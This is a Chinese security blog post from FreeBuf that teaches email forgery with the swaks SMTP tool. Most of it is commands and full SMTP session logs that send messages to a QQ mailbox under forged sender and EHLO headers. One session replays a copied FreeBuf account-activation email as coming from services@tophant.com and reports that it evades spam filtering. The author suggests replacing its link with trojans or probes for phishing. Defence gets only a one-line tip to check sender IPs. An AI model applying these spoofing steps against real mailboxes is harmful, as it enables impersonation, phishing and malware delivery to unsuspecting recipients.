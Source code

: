 钓鱼邮件初探：黑客是如何进行邮件伪造的？
----------------------------------------

[dontshoot](http://www.freebuf.com/author/dontshoot "由 dontshoot 发布") 2016-01-07 ![](./1_files/icon-m.jpg "现金奖励") 共**704765**人围观 ，发现 **31** 个不明物体 [工具](http://www.freebuf.com/sectool)[网络安全](http://www.freebuf.com/articles/network)

**本文原创作者：dontshoot**

**免责声明：本站提供安全工具、程序(方法)可能带有攻击性，仅供安全研究与教学之用，风险自负!**

**现如今的钓鱼邮件都是通过注册相似的邮箱，或者设置邮箱的显示名称，盼着被害人有看走眼的那一刻，轻信邮件的内容。这种方法需要一定的社工技巧，以及诱导性的语言来诱使被害人上钩。但是对于有一定的经验以及眼力的人来说，还是可以识破骗子的伎俩。**

下面我要介绍的这款工具可以最大程度的欺骗你的邮箱，更不要提你的眼睛。当然，此方法不是适用于任何邮箱，毕竟每种邮箱的过滤机制都不相同。gmail在这方面就做的不错。

Swaks - SMTP界的瑞士军刀

安装：kali中自带，或者从[作者网页](http://www.jetmore.org/john/code/swaks/)下载

**基本用法：**

**swaks –to \<要测试的邮箱\>**   用来测试邮箱的连通性

``` {.prettyprint .lang-bash .prettyprinted style="" data-initialized="true" data-gclp-id="0"}
root@kali:~# swaks --to xxxx@qq.com
=== Trying mx3.qq.com:25...
=== Connected to mx3.qq.com.
<-  220 newmx59.qq.com MX QQ Mail Server
 -> EHLO kali
<-  250-newmx59.qq.com
<-  250-SIZE 73400320
<-  250-STARTTLS
<-  250 OK
 -> MAIL FROM:<root@kali>
<-  250 Ok
 -> RCPT TO:<xxxx@qq.com>
<-  250 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 05 Jan 2016 23:15:11 -0500
 -> To: xxxx@qq.com
 -> From: root@kali
 -> Subject: test Tue, 05 Jan 2016 23:15:11 -0500
 -> X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
 -> 
 -> This is a test mailing
 -> 
 -> .
<** 550 Mail content denied. http://service.mail.qq.com/cgi-bin/help?subtype=1&&id=20022&&no=1000726
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

前面都返回250ok，说明该邮箱存在，并且可以正常收信。最后可以看到qq邮箱返回550错误，qq官方给出的出错原因：该邮件内容涉嫌大量群发，并且被多数用户投诉为垃圾邮件。

我们可以继续对邮件进行伪造，来绕过qq邮箱的判断

比如：

``` {.prettyprint .lang-bash .prettyprinted style="" data-initialized="true" data-gclp-id="1"}
swaks --to xxxx@qq.com --from info@freebuf.com --ehlo freebuf.com --body hello --header "Subject: hello"
```

其中：

**–from \<要显示的发件人邮箱\>**

**–ehlo \<伪造的邮件ehlo头\>**

**–body \<邮件正文\>**

**–header \<邮件头信息，subject为邮件标题\>**

``` {.prettyprint .lang-bash .prettyprinted style="" data-initialized="true" data-gclp-id="2"}
root@kali:~# swaks --to xxxx@qq.com --from info@freebuf.com --ehlo freebuf.com --body hello --header "Subject: hello"
=== Trying mx3.qq.com:25...
=== Connected to mx3.qq.com.
<-  220 newmx.qq.com MX QQ Mail Server
 -> EHLO freebuf.com
<-  250-newmx.qq.com
<-  250-SIZE 73400320
<-  250-STARTTLS
<-  250 OK
 -> MAIL FROM:<info@freebuf.com>
<-  250 Ok
 -> RCPT TO:<xxxx@qq.com>
<-  250 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 05 Jan 2016 23:23:09 -0500
 -> To: xxxx@qq.com
 -> From: info@freebuf.com
 -> Subject: hello
 -> X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
 -> 
 -> hello
 -> 
 -> .
<-  250 Ok: queued as 
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

在你ip没有被qq邮箱band的情况下，邮件可以正常发送，返回250 ok。

![(./1_files/14520619619752.png!small)](http://image.3001.net/images/20160106/14520619619752.png)


到这一步基本上可以满足伪造邮件的要求了，但是qq邮箱会有安全提示，不过在不注意的情况下，基本上普通用户会轻信邮件中的内容。

**高级用法：**

使用swaks其实还可以进行更高级的邮件伪造，几乎可以伪造邮件中的每一个参数。

**–data \<源邮件\>**

首先，我们需要一份正常的邮件

![(./1_files/14520626135791.png!small)](http://image.3001.net/images/20160106/14520626135791.png)



点击显示邮件原文，把原文复制出来，保存为email.txt

![(./1_files/14520628405961.png!small)](http://image.3001.net/images/20160106/14520628405961.png)


其中的received可以都删除，该项为接收信息，发信中不需要。to项也可以删除，可以直接用swaks –to来代替。

注意不要忘了加–from 否则qq邮箱会报由kali代发……

``` {.prettyprint .lang-bash .prettyprinted style="" data-initialized="true" data-gclp-id="3"}
swaks --data ./Desktop/email.txt --to xxxx@qq.com --from services@tophant.com
```

``` {.prettyprint .lang-bash .prettyprinted style="" data-initialized="true" data-gclp-id="4"}
=== Trying mx3.qq.com:25...
=== Connected to mx3.qq.com.
<-  220 newmx.qq.com MX QQ Mail Server
 -> EHLO kali
<-  250-newmx.qq.com
<-  250-SIZE 73400320
<-  250-STARTTLS
<-  250 OK
 -> MAIL FROM:<services@tophant.com>
<-  250 Ok
 -> RCPT TO:<xxxx@qq.com>
<-  250 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> X-QQ-mid: bizesmtp1t1452053499t679t108
 -> X-QQ-SSF: A0100000002000F16x90000A0000000
 -> X-QQ-FEAT: JN+C/NT9bLPRA1qtkTz2XI2YtLAH2K0SriLtB4o1q8I8MwPIq85lzXVAE4t7b
 ->  OaepuNhlRjNMuNhLJH2pbIQ3JkVf4MP4TXQi2HVPIG8N8dUf6GgxSJyMKya1U+CgOSvNgnP
 ->  bbplbVZjkAVzVuoZOc03UetuyeF1A3SpS70fm7O8nzDqx918Tpsf+n3dlMN6UaAEV3SJycL
 ->  1JuHYi2/yTQ7J6XJ4bMhJRRbRROkDmpNEgqGw1Sfo66A/oJUz0rf4tLEr7HgNuls18LrqZV
 ->  jYfpcX5wglT4lxLNkHZRNBshk=
 -> Date: Wed, 6 Jan 2016 12:11:39 +0800
 -> Return-Path: services@tophant.com
 -> From: =?utf-8?B?RnJlZUJ1Zi/mvI/mtJ7nm5LlrZDmnI3liqHlm6LpmJ8=?= <services@tophant.com>
 -> Subject: =?utf-8?B?RnJlZUJ1Zi/mvI/mtJ7nm5LlrZDotKbmiLfmv4DmtLvpgq7ku7Y=?=
 -> Message-ID: <34db99d2b030c0f7b34bd2c6beca9666@account.tophant.com>
 -> X-Priority: 3
 -> X-Mailer: PHPMailer 5.1 (phpmailer.sourceforge.net)
 -> MIME-Version: 1.0
 -> Content-Type: multipart/alternative;
 ->  boundary="b1_34db99d2b030c0f7b34bd2c6beca9666"
 -> 
 -> 
 -> --b1_34db99d2b030c0f7b34bd2c6beca9666
 -> Content-Type: text/plain; charset = "utf-8"
 -> Content-Transfer-Encoding: 8bit
 -> 
 -> FreeBuf/æ¼æ´žç›’å­è´¦æˆ·æ¿€æ´»é‚®ä»¶
 -> 
 -> 
 -> --b1_34db99d2b030c0f7b34bd2c6beca9666
 -> Content-Type: text/html; charset = "utf-8"
 -> Content-Transfer-Encoding: 8bit
 -> 
 -> 尊敬的FreeBuf/漏洞盒子用户：
 ->   您好，您可以点击以下链接激活您的账号：<BR><A href="https://account.tophant.com/register/activation/token/c5023007b72363de7085504cf922d0c6" target=_blank>https://account.tophant.com/register/activation/token/c5023007b72363de7085504cf922d0c6伪造成功，你还敢点这条链接么</A><BR><BR>本邮件由系统自动发出，请勿回复。
 -> 
 -> 感谢您的使用。
 -> FreeBuf/漏洞盒子管理团队
 -> 
 -> 
 -> 
 -> --b1_34db99d2b030c0f7b34bd2c6beca9666--
 -> 
 -> .
<-  250 Ok: queued as 
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

发送成功，qq邮箱没报垃圾邮件，也没报有害。

![(./1_files/14520638259860.png!small)](http://image.3001.net/images/20160106/14520638259860.png)

伪造成功，这超链接可以换成你喜欢的各种探针啊，马啊之类的，在加上一点社工技巧，在APT横行的年代，自求多福吧。

解决办法：遇到可疑邮件要查看源邮件，判断发信人ip是否为可信任的ip。

**\* 作者：dontshoot，本文属FreeBuf原创奖励计划文章，未经许可禁止转载**
